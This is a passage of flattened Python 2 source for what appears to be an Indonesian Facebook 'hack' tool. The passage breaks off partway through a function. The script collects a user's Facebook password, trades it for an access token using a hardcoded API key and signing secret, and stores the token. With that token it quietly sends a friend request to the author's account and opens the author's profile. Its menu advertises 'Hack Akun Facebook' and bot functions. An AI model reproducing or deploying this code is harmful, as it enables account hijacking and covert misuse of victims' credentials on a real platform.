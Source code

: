 '\x1b[1;91m[!] Keluar' os.sys.exit() def jalan(z): for e in z + '\n': sys.stdout.write(e) sys.stdout.flush() time.sleep(0.01) logo = '\x1b[1;92m\n\xe2\x95\x94\xe2\x95\xa6\xe2\x95\x97\xe2\x94\x8c\xe2\x94\x80\xe2\x94\x90\xe2\x94\xac\xe2\x94\x80\xe2\x94\x90\xe2\x94\xac\xe2\x94\x8c\xe2\x94\x80 \xe2\x95\x94\xe2\x95\x90\xe2\x95\x97\xe2\x95\x94\xe2\x95\x97 \n \xe2\x95\x91\xe2\x95\x91\xe2\x94\x9c\xe2\x94\x80\xe2\x94\xa4\xe2\x94\x9c\xe2\x94\xac\xe2\x94\x98\xe2\x94\x9c\xe2\x94\xb4\xe2\x94\x90\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x95\xa0\xe2\x95\xa3 \xe2\x95\xa0\xe2\x95\xa9\xe2\x95\x97\n\xe2\x95\x90\xe2\x95\xa9\xe2\x95\x9d\xe2\x94\xb4 \xe2\x94\xb4\xe2\x94\xb4\xe2\x94\x94\xe2\x94\x80\xe2\x94\xb4 \xe2\x94\xb4 \xe2\x95\x9a \xe2\x95\x9a\xe2\x95\x90\xe2\x95\x9d \x1b[1;93mv1.6\n\x1b[1;93m* \x1b[1;97mAuthor \x1b[1;91m: \x1b[1;96Mr.B34N X B34N'Z\x1b[1;97m\n\x1b[1;93m* \x1b[1;97mSupport \x1b[1;91m: \x1b[1;96mInfinity Cyber Team\x1b[1;97m[\x1b[1;96m\x1b[1;97m] \x1b[1;97m/ \x1b[1;96mGUNAKAN DENGAN BAIK MAS\x1b[1;97m/ \x1b[1;96mMr.B34N X B34N'Z\n\x1b[1;93m* \x1b[1;97mGitHub \x1b[1;91m: \x1b[1;92m\x1b[4mhttps://github.com/rikigans\x1b[0m\n[*] Decompiled by Mr.B34N X B34N'Z\n' def tik(): titik = [ '. ', '.. ', '... '] for o in titik: print '\r\x1b[1;91m[\xe2\x97\x8f] \x1b[1;92mSedang Masuk COK SABAR\x1b[1;97m' + o, sys.stdout.flush() time.sleep(1) back = 0 threads = [] berhasil cok = [] cekpoint sabar = [] gagal wlek = [] idteman = [] idfromteman = [] idmem = [] id = [] em = [] emfromteman = [] hp = [] hpfromteman = [] reaksi = [] reaksigrup = [] komen = [] komengrup = [] listgrup = [] vulnot = '\x1b[31mNot Vuln' vuln = '\x1b[32mVuln' def login(): os.system('clear') try: toket = open('login.txt', 'r') menu() except (KeyError, IOError): os.system('clear') print logo print 40 * '\x1b[1;97m\xe2\x95\x90' print '\x1b[1;91m[\xe2\x98\x86] \x1b[1;92mLOGIN AKUN FACEBOOK AKUN FB \x1b[1;91m[\xe2\x98\x86]' id = raw_input('\x1b[1;91m[+] \x1b[1;36mUsername FB \x1b[1;91m:\x1b[1;92m ') pwd = getpass.getpass('\x1b[1;91m[+] \x1b[1;36mPassword FB \x1b[1;91m:\x1b[1;92m ') tik() try: br.open('https://m.facebook.com') except mechanize.URLError: print '\n\x1b[1;91m[!] Tidak ada koneksi' keluar() br._factory.is_html = True br.select_form(nr=0) br.form['email'] = id br.form['pass'] = pwd br.submit() url = br.geturl() if 'save-device' in url: try: sig = 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail=' + id + 'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword=' + pwd + 'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32' data = {'api_key': '882a8490361da98702bf97a021ddc14d', 'credentials_type': 'password', 'email': id, 'format': 'JSON', 'generate_machine_id': '1', 'generate_session_cookies': '1', 'locale': 'en_US', 'method': 'auth.login', 'password': pwd, 'return_ssl_resources': '0', 'v': '1.0'} x = hashlib.new('md5') x.update(sig) a = x.hexdigest() data.update({'sig': a}) url = 'https://api.facebook.com/restserver.php' r = requests.get(url, params=data) z = json.loads(r.text) zedd = open('login.txt', 'w') zedd.write(z['access_token']) zedd.close() print '\n\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mLogin berhasil cok' requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token=' + z['access_token']) os.system('xdg-open https://www.facebook.com/profile.php?id=100011458638389') time.sleep(2) menu() except requests.exceptions.ConnectionError: print '\n\x1b[1;91m[!] Tidak ada koneksi' keluar() if 'checkpoint' in url: print '\n\x1b[1;91m[!] \x1b[1;93mAkun kena Checkpoint' os.system('rm -rf login.txt') time.sleep(1) keluar() else: print '\n\x1b[1;91m[!] Login Gagal' os.system('rm -rf login.txt') time.sleep(1) login() def menu(): os.system('clear') try: toket = open('login.txt', 'r').read() except IOError: os.system('clear') print '\x1b[1;91m[!] Token tidak ditemukan' os.system('rm -rf login.txt') time.sleep(1) login() else: try: otw = requests.get('https://graph.facebook.com/me?access_token=' + toket) a = json.loads(otw.text) nama = a['name'] id = a['id'] except KeyError: os.system('clear') print '\x1b[1;91m[!] \x1b[1;93mSepertinya akun kena Checkpoint' os.system('rm -rf login.txt') time.sleep(1) login() except requests.exceptions.ConnectionError: print '\x1b[1;91m[!] Tidak ada koneksi' keluar() os.system('clear') print logo print '\x1b[1;97m\xe2\x95\x94' + 40 * '\xe2\x95\x90' print '\xe2\x95\x91\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m]\x1b[1;97m Nama \x1b[1;91m: \x1b[1;92m' + nama print '\x1b[1;97m\xe2\x95\x9a' + 40 * '\xe2\x95\x90' print '\x1b[1;37;40m1. Informasi Pengguna' print '\x1b[1;37;40m2. Hack Akun Facebook' print '\x1b[1;37;40m3. Bot ' print '\x1b[1;37;40m4. Lainnya.... ' print '\x1b[1;37;40m5. LogOut ' print '\x1b[1;31;40m0. Keluar ' print pilih() def pilih(): zedd = raw_input('\x1b[1;91m-\xe2\x96\xba\x1b[1;97m ') if zedd == '': print '\x1b[1;91m[!] Jangan kosong' pilih() else: if zedd == '1': informasi() else: if zedd == '2': menu_hack() else: if zedd == '3': menu_bot() else: if zedd == '4': lain() else: if zedd == '5': os.system('rm -rf login.txt') os.system('xdg-open https://www.facebook.com/profile.php?id=100011458638389') keluar() else: if zedd == '0': keluar() else: print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + zedd + ' \x1b[1;91mTidak ada' pilih() def informasi(): os.system('clear') try: toket = open('login.txt', 'r').read() except IOError: print '\x1b[1;91m[!] Token tidak ditemukan' os.system('rm -rf login.txt') time.sleep(1) login() os.system('clear') print logo print 40 * '\x1b[1;97m\xe2\x95\x90' id = raw_input('\x1b[1;91m[+] \x1b[1;92mMasukan ID\x1b[1;97m/\x1b[1;92mNama\x1b[1;91m : \x1b[1;97m') jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...') r = requests.get('https://graph.facebook.com/me/friends?access_token=' + toket) cok = json.loads(r.text) for p in cok['data']: if id in p['name'] or id in p['id']: r